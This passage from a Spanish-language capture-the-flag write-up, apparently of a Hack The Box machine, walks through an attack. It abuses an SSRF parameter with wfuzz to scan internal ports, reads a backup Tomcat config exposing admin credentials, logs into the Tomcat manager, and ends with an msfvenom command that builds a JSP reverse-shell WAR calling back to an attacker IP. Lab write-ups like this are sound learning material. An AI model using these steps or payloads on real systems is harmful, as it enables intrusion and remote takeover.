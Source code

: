 ```bash
wfuzz -c -t 200 --hc=404 -z range,1-65535 "http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ"
```

Aqui vemos que hay muchas respuestas que nos dan 2 caracteres de respuesta y esto lo vamos a ocultar.

```bash
wfuzz -c -t 200 --hh=2 --hc=404 -z range,1-65535 "http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ"
```

Aqui vemos muchos puertos addicionales que no nos reporto el scanning de NMAP como los puertos

- 320
- 90
- 888
- 110
- 200
- 3306 (mysql)

Verificamos estos puertos con la web y encontramos cosas muy interesante como un panel de administracion en el puerto 320 y un listador
de ficheros en el puerto 888. Encontramos un fichero backup y lo miramos desde la web 
```bash
 http://10.10.10.55:60000/url.php?path=http://localhost:888/?doc=backup 
```

y mirando el codigo fuente encontramos informaciones muy interesante en el XML. Vemos un usuario admin y su contraseña.

Como vemos que el fichero XML es un fichero de configuracion tomcat miramos si las credenciales son validas en el servicio del puerto 8080
## Vuln exploit & Gaining Access {-}

### Conneccion en el panel de administracion de Tomcat {-}

Como todos los servicios tomcat, el panel de administracion se encuentra en la routa 
```bash
 /manager/html 
```


lo miramos en la url 
```bash
 http://10.10.10.55:8080/manager/html 
```


Una vez ganado el accesso al panel de administracion de tomcat, ya savemos que podemos subir un **war**
malicioso.

```bash
msfvenom -l payload | grep "jsp"
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.6 LPORT=443 -f war -o reverse.war
```
